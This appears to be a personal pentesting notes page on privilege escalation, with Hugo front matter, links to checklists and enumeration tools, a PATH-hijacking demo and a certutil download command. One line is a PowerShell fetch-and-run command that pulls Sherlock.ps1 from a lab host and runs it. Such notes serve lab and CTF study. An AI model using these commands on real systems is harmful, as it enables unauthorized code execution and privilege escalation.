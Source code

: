 ```yaml
---
### The title for the content.
title : "priv esc"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "priv esc"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "priv esc description."
### The datetime assigned to this page.
date : 2020-03-10T16:43:46+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "priv-esc"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## priv esc
|Checklists|
|-|
|[g0tmi1k Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)|
|[hacktricks Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist) |
|[fuzzysecurity Windows Privilege Escalation ](https://www.fuzzysecurity.com/tutorials/16.html) |
|[PowerSploit - PowerUp](https://github.com/PowerShellMafia/PowerSploit)
|[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)|

|Scripts| |
|-|-|
| [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)|
| [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)|
| [linenum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) |
| MSF - local_exploit_suggester |
| [AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) |
| [jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)
| [RastaMouse/Sherlock](https://github.com/rasta-mouse/Sherlock) | `powershell "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.24:8888/Sherlock.ps1');$a=find-allvulns;$a | where-object {$_.VulnStatus -notlike 'not *'}| ft Title,VulnStatus,MSBulletin,CVEID,Link -autosize"` | 

## Path vulnerability

If something searches the Path for a a command and where able to replace the path we can trick the system to execute something else.  
Whenever we use `ls` it will now actually run `cat`.

```bash
export PATH="/tmp/tmp:${PATH}"
cp /bin/cat /tmp/tmp/cat
mv /tmp/tmp/cat /tmp/tmp/ls
```

## [GTFOBins](https://gtfobins.github.io/)

## Download files in command prompt

```
certutil.exe -urlcache -split -f "https://url/file" file
```
